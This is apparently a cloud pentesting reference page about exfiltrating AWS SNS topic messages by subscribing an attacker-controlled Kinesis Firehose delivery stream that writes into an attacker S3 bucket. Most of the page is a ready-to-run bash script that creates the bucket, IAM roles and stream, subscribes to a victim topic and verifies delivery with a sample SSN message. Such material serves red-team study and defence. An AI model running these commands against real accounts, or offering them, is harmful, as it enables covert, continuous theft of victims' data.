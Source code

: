 # AWS - SNS to Kinesis Firehose Exfiltration (Fanout to S3)

Abuse the Firehose subscription protocol to register an attacker-controlled Kinesis Data Firehose delivery stream on a victim SNS standard topic. Once the subscription is in place and the required IAM role trusts `sns.amazonaws.com`, every future notification is durably written into the attacker’s S3 bucket with minimal noise.

## Requirements
- Permissions in the attacker account to create an S3 bucket, Firehose delivery stream, and the IAM role used by Firehose (`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy`, etc.).
- The ability to `sns:Subscribe` to the victim topic (and optionally `sns:SetSubscriptionAttributes` if the subscription role ARN is provided after creation).
- A topic policy that allows the attacker principal to subscribe (or the attacker already operates inside the same account).

## Attack Steps (same-account example)

```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
  "Version": "2012-10-17",
  "Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
  --delivery-stream-name "$STREAM_NAME" \
  --delivery-stream-type DirectPut \
  --s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
  --region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
  "Version": "2012-10-17",
  "Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
  --topic-arn "$TOPIC_ARN" \
  --protocol firehose \
  --notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
  --attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
  --region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```

## Cleanup
- Delete the SNS subscription, Firehose delivery stream, temporary IAM roles/policies, and attacker S3 bucket.

## Impact
**Potential Impact**: Continuous, durable exfiltration of every message published to the targeted SNS topic into attacker-controlled storage with minimal operational footprint.

